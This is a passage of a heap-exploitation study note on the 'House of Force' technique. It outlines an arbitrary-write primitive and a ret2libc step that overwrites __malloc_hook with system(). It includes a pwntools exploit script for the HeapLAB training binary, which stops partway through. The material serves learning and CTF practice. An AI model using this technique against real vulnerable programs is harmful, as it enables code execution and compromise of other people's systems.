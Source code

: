**Arbitrary Write Primitive**
* Overwrite size of top chunk to `0xffffffffffffffff`
* Allocate chunk with size of `offset`, using `malloc()`
    * If `target < top_chunk`: `offset = top_chunk - target + allocated_chunks_size`, and offset is negative
    * If `target > top_chunk`: `offset = target - top_chunk - allocated_chunks_size`
* Allocate new chunk, this chunk will be created at `target`

**Gaining RCE using ret2libc**  
_This requires libc version to be known_
* Overwrite `__malloc_hook` using write primitive with `system()`
* Call `malloc(/bin/sh)`

**Example:** HeapLAB `House of Force`
```python
from pwn import *

config = {
    "elf" : "./house_of_force",
    "libc" : "./libc-2.28.so",
    "ld" : "./ld.so.2",
}

def malloc(size, data):
    sla('>', '1')
    sla('size:', str(size))
    sla('data:', data)

def exploit(p):
    # Get addresses
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    ru('heap @ ')
    heap_addr = int(p.recvline().strip(), 16)
    
    # Calculate libc_base, etc...
    libc.address = puts - libc.symbols['puts']
    malloc_hook = libc.symbols['__malloc_hook']
    system = libc.symbols['system']
    binsh = libc.search('/bin/sh\x00').next()

    lg('heap_addr: ' + hex(heap_addr))
    lg('malloc_hook: ' + hex(malloc_hook))
    lg('system: ' + hex(system))
    lg('binsh: ' + hex(binsh))
    
    # House of Force: Overwrite top_chunk size
    malloc(24, '/bin/sh\x00'.ljust(24, "\x00") + p64(0xffffffffffffffff))
    
    """
    # Overwrite target with "OVERWRIT"
    target = elf.symbols['target']
    top_chunk = heap_addr + 0x20
    offset = top_chunk - target + 32
    ru('>')
    malloc(-offset, p64(0xdeadbeef))
    malloc(16, 'OVERWRIT')
    sla('>', '2')
    """

    # Pop shell with ret2libc by overwriting __malloc_hook with system() 
    top_chunk = heap_addr + 0x20
    offset = malloc_hook - top_chunk - 32
    ru('>')
    malloc(offset, "Y") 
```